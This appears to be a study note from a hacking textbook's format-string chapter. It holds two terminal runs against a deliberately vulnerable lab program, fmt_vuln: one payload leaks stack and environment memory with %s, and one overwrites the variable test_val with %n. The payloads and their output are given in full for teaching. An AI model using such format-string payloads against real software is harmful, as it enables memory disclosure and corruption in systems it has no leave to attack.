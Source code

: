 ![|400](../../zzz_res/attachments/format-string_write.png)

```bash
reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\xd7\xfd\xff\xbf")%08x.%08x.%08x.%s
The right way to print user-controlled input:
????%08x.%08x.%08x.%s
The wrong way to print user-controlled input:
????bffff3d0.b7fe75fc.00000000./usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/
usr/games
[*] test_val @ 0x08049794 = -72 0xffffffb8

reader@hacking:~/booksrc $ ./fmt_vuln $(printf "\x94\x97\x04\x08")%08x.%08x.%08x.%n
The right way to print user-controlled input:
??%08x.%08x.%08x.%n
The wrong way to print user-controlled input:
??bffff3d0.b7fe75fc.00000000.
[*] test_val @ 0x08049794 = 31 0x0000001f
```
